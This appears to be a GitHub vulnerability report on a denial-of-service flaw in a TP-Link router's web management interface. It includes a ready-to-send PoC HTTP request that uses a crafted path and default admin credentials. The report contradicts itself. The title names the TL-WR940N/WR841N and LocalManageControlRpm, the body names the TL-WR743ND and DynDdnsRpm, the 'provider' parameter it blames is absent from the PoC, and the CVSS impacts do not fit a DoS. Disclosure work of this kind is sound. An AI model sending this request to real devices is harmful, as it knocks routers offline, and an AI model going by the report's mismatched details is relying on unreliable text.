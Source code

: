 # TP-Link TL-WR940N/TL-WR841N wireless router /userRpm/LocalManageControlRpm denial of service vulnerability

## 1 Basic Information

- Vulnerability Type: Denial of Service
- Vulnerability Description: A denial of service vulnerability exists in TL-WR743ND V1 wireless router. Its /userRpm/DynDdnsRpm component has a security vulnerability in processing provider GET key parameters, allowing remote attackers to submit special requests through the vulnerability, causing denial of service.
- Device model:
  - TP-Link TL-WR743ND V1

## 2 Vulnerability Value 

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

  - V2：[7.1 High AV:N/AC:H/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:H/Au:S/C:C/I:C/A:C))
  - V3.1：[8.6 High AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

  - Attack Vector Type: Network
  - Attack Complexity: Low
  - Complexity of Exploit
    - Permission Constraints: authentication is required
    - User Interaction: No victim interaction required
  - Scope of Impact: Changed (may affect other components than vulnerable ones)
  - Impact Indicators:
    - Confidentiality: High
    - Integrity: High
    - Availability: High
  - Stability of vulnerability exploitation: Stable recurrence
  - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect
  - Denial of Service

## 3 PoC

The PoC of TP-Link TL-WR743ND V1 is as follows:

```http
GET /userRpm/DynDdnsRpm.htm;|=2&wan=0&username=username&pwd=password&cliUrl=wefrwf&Login=Login HTTP/1.1
Host: 0.0.0.0:49155
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://0.0.0.0:49155/userRpm/DdnsAddRpm.htm
Upgrade-Insecure-Requests: 1

```

## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/DynDdnsRpm component has a security vulnerability in processing the provider GET key parameter. The provider parameter itself is put into the stack without being checked, resulting in a denial of service. An attacker exploits this vulnerability to construct a payload of the provider parameter, so that the carefully constructed parameter causes a denial of service. Attackers can directly achieve the effect of denial of service by exploiting this vulnerability.

The firmware simulation process and interface are as follows:

![](./imgs/before1.png)

![](./imgs/before2.png)

![](./imgs/web.png)

After sending the constructed PoC, denial of service occurred.

![](./imgs/dos.png)

![](./imgs/crash.png)

## 5. The basis for judging as a 0-day vulnerability

Search for DynDdnsRpm keywords in the NVD database and find no vulnerabilities (the same series of vulnerabilities can be found by directly searching the interface name to find the relevant historical vulnerabilities).

Search for DynDdnsRpm keywords in the CNVD database did not find any vulnerabilities (the same series of vulnerabilities can be found by directly searching the interface name to find the relevant historical vulnerabilities).